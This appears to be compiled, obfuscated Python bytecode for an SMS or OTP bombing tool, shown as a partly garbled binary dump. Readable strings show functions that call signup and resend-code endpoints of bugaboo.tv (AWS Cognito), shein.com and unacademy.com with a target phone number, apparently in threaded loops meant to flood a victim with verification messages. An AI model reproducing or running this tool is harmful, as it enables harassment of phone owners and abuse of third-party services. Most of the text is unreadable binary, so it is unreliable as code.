 \x9c\x02d\x1b\x8d\x03}\x02t\x03|\x00\x83\x01t\x03|\x01j\x04\x83\x01v\x00rnt\x05d!\x83\x01\x01\x00W\x00d\x00S\x00t\x05d!\x83\x01\x01\x00W\x00d\x00S\x00\x01\x00\x01\x00\x01\x00Y\x00d\x00S\x00)"Nr\x0e\x00\x00\x00z1https://cognito-idp.ap-southeast-1.amazonaws.com/r\x05\x00\x00\x00z\x1aapplication/x-amz-json-1.1z(AWSCognitoIdentityProviderService.SignUpz\x14aws-amplify/0.1.x jsz+https://www.bugaboo.tv/members/signup/phone)\x05r\x17\x00\x00\x00r\x18\x00\x00\x00\xfa\x0cx-amz-target\xfa\x10x-amz-user-agentr%\x00\x00\x00Z\x1a6g47av6ddfcvi06v4l186c16d6r!\x00\x00\x00r\x19\x00\x00\x00Z\x08098098Azr\x1e\x00\x00\x00Z\x04Dbdh)\x02Z\x04NameZ\x05ValueZ\tbirthdatez\n2005-01-01r\x1a\x00\x00\x00Z\x04MaleZ\x0cphone_numberz\x19custom:phone_country_codez\x13custom:is_agreement\xda\x04truez\x14custom:allow_consentz\x18custom:allow_person_info)\x05\xda\x08ClientId\xda\x08UsernameZ\x08PasswordZ\x0eUserAttributesZ\x0eValidationDatar\x1c\x00\x00\x00z\tmax-age=0z8AWSCognitoIdentityProviderService.ResendConfirmationCodez.https://www.bugaboo.tv/members/resetpass/phone)\x06z\rcache-controlr\x17\x00\x00\x00r\x18\x00\x00\x00r\'\x00\x00\x00r(\x00\x00\x00r%\x00\x00\x00)\x02r*\x00\x00\x00r+\x00\x00\x00r\n\x00\x00\x00r\x0b\x00\x00\x00r\x1f\x00\x00\x00r\x15\x00\x00\x00r\x15\x00\x00\x00r\x04\x00\x00\x00\xda\x05API_6\x9e\x00\x00\x00sv\x00\x00\x00\x02\x01\x04\x01\x04\x01\x02\x01\x02\x03\x02\x01\x02\x01\x02\x01\x02\x01\x04\xfa\x02\n\x10\x02\x02\x02\x02\x02\x02\x01\x04\xfe\x02\x04\x02\x01\x04\xfe\x02\x04\x02\x01\x04\xfe\x02\x04\x10\x01\x04\xfe\x02\x04\x02\x01\x04\xfe\x02\x04\x02\x01\x04\xfe\x02\x04\x02\x01\x04\xfe\x02\x04\x02\x01\x04\xfe\x02\xeb\x02\x19\x04\xe0\x06\xf6\x04,\x02\x01\x02\x02\x02\x02\x02\x01\x02\x02\x02\x01\x02\x01\x04\xf8\x02\x0b\x10\x01\x04\xfe\x06\xf4\x12\x10\x0e\x01\x0e\x02\x06\x01\x06\x01r,\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x06\x00\x00\x00C\x00\x00\x00sr\x00\x00\x00z2d\x01}\x00d\x02t\x00d\x03d\x00\x85\x02\x19\x00\x9b\x00d\x04\x9d\x03}\x01d\x05d\x06d\x07d\x08d\t\x9c\x04}\x02t\x01j\x02d\n|\x02|\x01d\x0b\x8d\x03}\x03t\x03|\x00\x83\x01t\x03|\x03j\x04\x83\x01v\x00r,t\x05d\x0c\x83\x01\x01\x00W\x00d\x00S\x00t\x05d\x0c\x83\x01\x01\x00W\x00d\x00S\x00\x01\x00\x01\x00\x01\x00Y\x00d\x00S\x00)\rNr\x0e\x00\x00\x00z\x13alias_type=2&amp;alias=r\x19\x00\x00\x00zO&amp;scene=phone_login_register_verify&amp;third_party_type=8&amp;area_code=66&amp;area_abbr=THa&amp;\x01\x00\x00WHJMrwNw1k/FkgqTRcw7UZ5PkWLQAuU+TezL9vzcTO6HZ7S/2M8BWywESlp95MzuBeTohbRm+Xe8PbnXuZKYNl/zT3JGiUHo2B+dnLhXY8dBTWDDWm6IuDIYHqxuZPWulBJ7HANruhDjgssVEtOEyiJGebD4P9188qLPpJodGYZ3O50FnlatQ0V6Bzd7lNAi5Kei9dcuNh8hITj5CyjMgYOvVpwWYlJx0uwP6Z8JvobM2kNF0emrW7C4Vc2T0mj05UX6nQPSaEF7iU4/FsVYgBg==1487582755342z$V5QoyYSc-5vIAbVv7HGaqTFwz7E7POtIEDCQz!application/x-www-form-urlencodedr\x06\x00\x00\x00)\x04Z\nsmdeviceidz\x0cx-csrf-tokenr\x18\x00\x00\x00z\x10x-requested-withz=https://m.shein.com/ru/user/auth/sendcode?_ver=1.1.8&amp;_lang=rur\x07\x00\x00\x00r\n\x00\x00\x00)\x06r\x0e\x00\x00\x00r\x0c\x00\x00\x00r\r\x00\x00\x00r\x0f\x00\x00\x00r\x10\x00\x00\x00r\x11\x00\x00\x00)\x04r\x13\x00\x00\x00r\t\x00\x00\x00r\x08\x00\x00\x00r\x14\x00\x00\x00r\x15\x00\x00\x00r\x15\x00\x00\x00r\x04\x00\x00\x00\xda\x05API_7\xe5\x00\x00\x00s$\x00\x00\x00\x02\x01\x04\x01\x14\x01\x02\x03\x02\x01\x02\x01\x02\x01\x06\xfb\x04\x07\x02\x01\x02\x01\x02\x01\x06\xfd\x12\x04\x0e\x01\x0e\x02\x06\x01\x06\x01r-\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x06\x00\x00\x00C\x00\x00\x00sZ\x00\x00\x00z&amp;d\x01}\x00t\x00j\x01d\x02t\x02d\x03d\x04\x9c\x02i\x00d\x05\x8d\x03\xa0\x03\xa1\x00}\x01t\x04|\x00\x83\x01t\x04|\x01j\x05\x83\x01v\x00r t\x06d\x06\x83\x01\x01\x00W\x00d\x00S\x00t\x06d\x06\x83\x01\x01\x00W\x00d\x00S\x00\x01\x00\x01\x00\x01\x00Y\x00d\x00S\x00)\x07Nr\x0e\x00\x00\x00z-https://unacademy.com/api/v3/user/user_check/Z\x02TH)\x02r\x0e\x00\x00\x00Z\x0ccountry_code)\x02r\x1d\x00\x00\x00r\x08\x00\x00\x00r\n\x00\x00\x00)\x07r\x0c\x00\x00\x00r\r\x00\x00\x00r\x0e\x00\x00\x00r\x1d\x00\x00\x00r\x0f\x00\x00\x00r\x10\x00\x00\x00r\x11\x00\x00\x00r\x12\x00\x00\x00r\x15\x00\x00\x00r\x15\x00\x00\x00r\x04\x00\x00\x00\xda\x05API_8\xfc\x00\x00\x00s\x1e\x00\x00\x00\x02\x01\x04\x01\x06\x01\x02\x02\x02\x01\x04\xfe\x02\x04\x04\xfb\x04\x05\x02\xfb\x12\x06\x0e\x01\x0e\x02\x06\x01\x06\x01r.\x00\x00\x00r\x19\x00\x00\x00)\x01\xda\x06target)\x17r\x0c\x00\x00\x00\xda\x02os\xda\x04timeZ\tthreadingr\x02\x00\x00\x00\xda\x06systemr\x11\x00\x00\x00\xda\x05inputr\x0e\x00\x00\x00\xda\x03intZ\x03numr\x16\x00\x00\x00r \x00\x00\x00r"\x00\x00\x00r$\x00\x00\x00r&amp;\x00\x00\x00r,\x00\x00\x00r-\x00\x00\x00r.\x00\x00\x00\xda\x05range\xda\x01i\xda\x05sleep\xda\x05startr\x15\x00\x00\x00r\x15\x00\x00\x00r\x15\x00\x00\x00r\x04\x00\x00\x00\xda\x08&lt;module>\x01\x00\x00\x00sD\x00\x00\x00\x08\x00\x08\x01\x08\x01\x08\x01\x0c\x01\n\x02\x08\x01\x08\x01\x08\t\x08\x01\x08\x01\x08\x01\x0c\x01\x08\x01\x08\x01\x08\x03\x08\x1a\x081\x08\x12\x08\x0e\x08\x18\x08G\x08\x17\x0c\x12\n\x01\x10\x01\x10\x01\x10\x01\x10\x01\x10\x01\x10\x01\x10\x01\x12\x01\x04\xf7'))
